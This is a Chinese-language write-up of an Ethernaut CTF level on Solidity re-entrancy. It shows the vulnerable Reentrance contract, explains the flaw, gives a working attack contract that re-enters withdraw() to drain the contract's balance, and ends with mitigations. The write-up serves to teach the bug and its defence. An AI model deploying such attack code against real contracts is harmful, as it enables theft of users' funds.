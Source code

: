 # 10. Re-entrancy
### 原题
```
这一关的目标是偷走合约的所有资产.
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
### 分析
这道题让我感觉偷感好重：）\
其实这个在开发中是必须要注意的重入漏洞，算是防范的基本要求了。\
但是早期的时候，有的合约开发确实有一些疏忽，造成重要损失的也有。\
我们主要看withdraw这个函数，首先是判断余额，\
然后使用call()转账，最后是更新余额。\
这个步骤就出现了漏洞，如果msg.sender是个攻击合约的话，\
这个攻击合约在收到转账后，会执行fallback或者receive函数，\
又可以继续发起调用withdraw()，\
因为“balances[msg.sender] -= _amount;”还没执行，\
所以余额始终还没变化，\
“balances[msg.sender] >= _amount”每次都通过校验。\
这样就可以再次调用，把余额全部偷完。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function withdraw(uint256 _amount) external ;
    function donate(address _to) external  payable;
    function balanceOf(address _who) external view returns (uint256 balance);
}

contract ReentranceAttack {

    IReentrance reentrance;
    
    constructor(address _reentrance) public payable {
       reentrance = IReentrance(_reentrance);
    }

    function attack() public {
      (bool success,) = address(reentrance).call{value: 0.001 ether}(abi.encodeWithSelector(bytes4(keccak256("donate(address)")), address(this)));
      require(success, "attack failed");
      reentrance.withdraw(0.001 ether);
    }

    receive() payable external  {
      //如果是reentrance的余额大于0，我会重入攻击，把余额转走
      if (reentrance.balanceOf(address(this)) > 0) {
        reentrance.withdraw(reentrance.balanceOf(address(this)));
      } 
      
    }
}
```
### 总结
所以在现实开发中，一定要防范重入攻击。有以下解决方案：
1. 自己写防重入修饰器
2. 先改状态，再执行转账
3. 使用openzepplin的公共库